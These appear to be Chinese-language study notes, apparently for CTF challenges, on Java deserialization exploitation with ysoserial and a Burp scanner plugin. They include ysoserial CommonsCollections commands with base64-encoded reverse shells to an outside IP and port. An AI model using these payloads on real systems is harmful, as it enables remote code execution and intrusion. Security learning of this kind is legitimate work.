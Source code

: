 
[Java反序列化基础篇-01-反序列化概念与利用 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/333697.html)

ysoerial使用
[【转载】ysoserial反序列化工具打包jar文件流程_ysoserial生成jar_明月清风~~的博客-CSDN博客](https://blog.csdn.net/qq_50854790/article/details/123854611)
[ysoserial 编译打包 - 小直789 - 博客园 (cnblogs.com)](https://www.cnblogs.com/xiaozhi789/p/15744050.html#:~:text=ysoserial%E5%9C%B0%E5%9D%80%EF%BC%9A%20https%3A%2F%2Fgithub.com%2Ffrohoff%2Fysoserial%20%E8%BF%87%E7%A8%8B%3A%201.%E8%BF%99%E5%9B%9B%E4%B8%AA%E6%A1%86%E4%B8%80%E5%AE%9A%E8%A6%81%E9%80%89%E4%B8%8A%2C%E7%84%B6%E5%90%8Ereimport%20%E6%B2%A1%E6%9C%89%E6%8A%A5%E9%94%99%E5%B0%B1%E6%88%90%E5%8A%9F%E4%BA%86%202.%E8%B7%AF%E5%BE%84%E4%B8%80%E5%AE%9A%E4%B8%8D%E8%A6%81%E6%9C%89%E4%B8%AD%E6%96%87%E5%90%A6%E5%88%99%E4%BC%9A%E6%8A%A5%E9%94%99%EF%BC%8C%E8%BF%9B%E5%85%A5%E6%9C%89pom.xml,%E6%96%87%E4%BB%B6%E4%B8%8B%20%E4%BD%BF%E7%94%A8cmd%E5%91%BD%E4%BB%A4%20mvn%20clean%20package%20-DskipTests%20%E5%91%BD%E4%BB%A4%E8%BF%9B%E8%A1%8C%E7%BC%96%E8%AF%91%E5%B0%B1%E5%A5%BD%E4%BA%86%EF%BC%8C%E5%9C%A8target%E4%B8%8B%E5%8F%AF%E6%89%BE%E5%88%B0%E5%B0%B1%E6%88%90%E5%8A%9F%E4%BA%86)

![](./img/1.png)

需要勾选Profiles全部

**建议直接下载jar包**

```
URLDNS

java -jar ysoserial.jar URLDNS "题目地址"|base64 -w 0
```


```
cc链

java -jar ysoserial.jar CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjEzMC4yMC4yNTQvMTIzNDUgMD4mMQ==}|{base64,-d}|{bash,-i}"|base64 -w 0
```

## 高版本运行

解决方法：(针对于Idea2021.3.3版本)
Run—>EditConfigurations…—>Modify options—>Add VM options—>JVM options
在JVM options 内添加下面指令：

```
--add-opens java.base/java.lang=ALL-UNNAMED
--add-opens java.base/java.util=ALL-UNNAMED
--add-opens java.base/java.nio=ALL-UNNAMED
--add-opens java.base/sun.nio.ch=ALL-UNNAMED

根据报错情况选择
java -jar --add-opens java.base/java.lang=ALL-UNNAMED ysoserial-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvOC4xMzAuMjAuMjU0LzEyMzQ1IDwmMSc=}|{base64,-d}|{bash,-i}" |base64 -w 0
```


## BP插件

#### Java Deserialization Scanner

https://github.com/federicodotta/Java-Deserialization-Scanner

可以直接在app store下载，需要先配置ysoserial.jar包

![image-20240122003506532](F:\笔记\WEB\Java\JAVA反序列化工具使用.assets\image-20240122003506532.png)

抓包后发送到Java Deserialization Scanner即可，有四种模式：

 DNS（依赖于burpsuite的Collaborator功能来获取响应）, Sleep （如果有漏洞让服务器sleep 几秒钟）， 还有 cpu模式


